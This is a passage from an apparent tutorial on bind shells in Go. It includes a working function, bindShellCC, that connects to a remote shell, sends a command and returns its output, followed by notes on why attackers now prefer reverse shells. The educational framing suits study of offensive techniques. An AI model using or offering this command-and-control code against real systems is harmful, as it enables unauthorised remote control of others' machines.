 ```Go
}
```

Remotely connecting to this shell can be done by either using same tools as shown above or by implementing your own little Command-and-Control server (CC). A skeleton implementation of such is shown in fucntion _bindShellCC_

```Go
// example of CC server that sends a user defined command to remote shell and returns the output
func bindShellCC(remoteAddr string, remotePort string, cmd string) []byte {

 // connect to the listener on the remote machine
 conn, err := net.Dial("tcp", remoteAddr+remotePort)
 if err != nil {
  log.Println("An error occurred while connecting to remote host:", err)
  os.Exit(1)
 } else {
  log.Println("Successfully connected to remote host")
 }

 // make sure connection is closed when process finishes
 defer conn.Close()

 // send command to remote host
 _, err = conn.Write([]byte(cmd + "\n"))
 if err != nil {
  log.Println("An error occurred while writing to the remote host connection:", err)
  os.Exit(2)
 }

 // read and return output (stdout, stderr) from remote shell
 buf := make([]byte, 1024)
 _, err = conn.Read(buf)
 if err != nil {
  log.Println("An error occurred while reading from the remote host connection:", err)
  os.Exit(3)
 }

 return buf
}
```

### Disadvantages of Bind Shells

Bind shells are a useful tools but they come with a handful of disadvantages that have made them less popular than reverse shells in recent years.

- Bind shells require an open network port on the remote computer, which can be detected and blocked by firewalls and intrusion detection systems (IDS). This makes it more difficult for an attacker to gain access to the remote system.
- Bind shells require the attacker to know the IP address or hostname of the remote system, which can be difficult to obtain in some cases. In contrast, reverse shells only require the remote system to be able to initiate outbound connections to a specified IP address and port.
- Bind shells allow **anyone** to connect to them making them a huge security issue and liability both for admins and malicioius actors who don't like competition.

